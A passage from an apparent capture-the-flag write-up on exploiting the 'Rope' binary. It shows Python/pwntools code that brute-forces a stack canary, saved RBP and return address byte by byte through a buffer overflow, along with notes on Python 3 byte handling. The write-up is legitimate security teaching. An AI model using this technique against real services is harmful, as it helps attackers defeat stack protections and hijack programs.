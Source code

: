 In `get_next_byte`, for each byte, it opens a connection, sends the overflow, and if it succeeds in getting back the message, it returns the byte. Otherwise it tries the next byte. `brute_word` just handles looping over a given number of bytes until it gets a full word.

Because I’m using Python3, I have to be careful with how I handle bytes coming from an int. It’s tempting to do something like `chr(i).encode()`, which works with lower numbers:

```

>>> chr(80).encode()
b'P'
>>> chr(127).encode()
b'\x7f'

```

However, for any character non-ascii (128 or greater), it adds a second byte:

```

>>> chr(253).encode()
b'\xc3\xbd'

```

`i.to_bytes(1,'big')` works, where the endian can be `big` or `little`, since it’s only one byte.

```

>>> x = 127; x.to_bytes(1,'big')
b'\x7f'
>>> x = 253; x.to_bytes(1,'big')
b'\xfd'

```

I also had fun playing with `log.progress`. It allows me to make a live updating line during the loop:

![](https://0xdfimages.gitlab.io/img/rope-brute.gif)

I’ll call `brute_word` with this code:

```

### Stage 0: Brute force addresses
log.info("Starting brute force")
exploit = b"A"*56
canary = brute_word(exploit, 8, 'Canary')
#canary = p64(0xc3c00f67449ca300)
exploit += canary

rbp = brute_word(exploit, 8, 'RBP')
#rbp = p64(0x00007ffdf7d5285c)
exploit += rbp

ret = brute_word(exploit, 7, 'Return Address', b'\x62')
#ret = p64(0x0000556ff9dd4562)

```
